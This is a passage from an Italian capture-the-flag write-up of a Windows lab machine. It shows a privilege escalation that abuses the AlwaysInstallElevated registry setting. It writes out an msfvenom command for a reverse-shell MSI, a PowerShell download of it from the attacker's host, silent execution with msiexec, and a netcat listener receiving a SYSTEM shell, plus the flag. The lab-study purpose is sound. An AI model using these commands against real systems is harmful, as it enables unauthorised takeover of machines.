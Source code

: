 ```shell
    PS history size: 51B  
```

Ma la cosa più importate, trovata dopo un pò di ricerca, è il fatto che `AlwaysInstallElevated` è settata ad 1:

```shell
[+] Checking AlwaysInstallElevated
[?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!  
```

**Background**  
  Se questi 2 registri sono abilitati (il valore è 0x1), gli utenti con qualsiasi privilegio possono installare (eseguire) file *.msi come NT AUTHORITY\SYSTEM. 

Utilizzo *msfvenom* per creare un file *.msi*: `msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f msi -o rev.msi`

Carichiamo sulla macchina host: `powershell wget http://10.10.14.16:3210/rev.msi -outfile rev.msi`

Quindi avviamo il file con il comando: `msiexec /quiet /qn /i rev.msi`, mentre rimaniamo in ascolto il locale:

```shell
└─$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.239 59730
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

In *C:\Users\Administrator\Desktop* abbiamo la root flag: `1a4f94f6e819fa2a2aae175db3106ba9`